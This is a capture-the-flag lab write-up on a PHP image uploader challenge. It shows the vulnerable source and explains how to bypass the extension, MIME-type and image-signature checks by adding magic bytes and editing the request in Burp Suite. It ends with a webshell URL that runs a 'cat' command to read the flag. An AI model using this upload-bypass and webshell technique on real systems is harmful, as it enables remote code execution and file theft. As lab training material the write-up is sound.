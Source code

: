 ```yaml
---
title: Simple Web 0x06(Lab - Image Space 0x03)
tags: [NTUSTWS, CTF, Web]

---
```


# Simple Web 0x06(Lab - Image Space 0x03)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9012

## Background
[file signature](https://en.wikipedia.org/wiki/List_of_file_signatures)

## Source code
:::spoiler
```php!=
 <?php
    if (isset($_GET['source'])) {
        highlight_file(__FILE__);
        exit;
    }
?>
<h1>Image Uploader</h1>
<p>Only supports: jpg, jpeg, png</p>
<form action="index.php" method="POST" enctype="multipart/form-data">
    <input type="file" name="image_file">
    <input type="submit" value="Upload">
</form>
<p>
    <a href="/?source">View Source</a>
</p>
<?php
    if (!isset($_FILES['image_file'])) {
        die('Give me a file!');
    }

    $filename = basename($_FILES['image_file']['name']);
    $extension = strtolower(explode(".", $filename)[1]);

    if (!in_array($extension, ['png', 'jpeg', 'jpg']) !== false) {
        die("Invalid file extension: $extension.");
    }

    if (in_array($_FILES['image_file']['type'], ["image/png", "image/jpeg", "image/jpg"]) === false) {
        die("Invalid file type: " . $_SERVER["CONTENT_TYPE"]);
    }

    list($_, $_, $type) = getimagesize($_FILES['image_file']['tmp_name']);

    if ($type !== IMAGETYPE_JPEG && $type !== IMAGETYPE_PNG) {
        die("Invalid image type.");
    }

    $prefix = bin2hex(random_bytes(8));
    move_uploaded_file($_FILES['image_file']['tmp_name'], "images/${prefix}_${filename}");
    echo "<img src=\"/images/${prefix}_${filename}\">";
?>
```
:::
It has 2 extra constraint must be bypassed. Use `burpsuite` and change valid file signature
## Exploit - bypass `IMAGETYPE` + bypass `$_FILES['image_file']['type']`
1. `HxD` - bypass `IMAGETYPE`
Add valid file signature at the beginning from [wiki page](https://en.wikipedia.org/wiki/List_of_file_signatures)
png: `89 50 4E 47 0D 0A 1A 0A`
jpg: `FF D8 FF DB`
2. `burpsuite` - bypass file type
![](https://i.imgur.com/02Mh97T.png)
3. Then we got shell!!!
payload: `http://h4ck3r.quest:9012/images/353d74c11becb9b1_webshell_valid_filetype.png.php?sh=cat%20../../../../flag`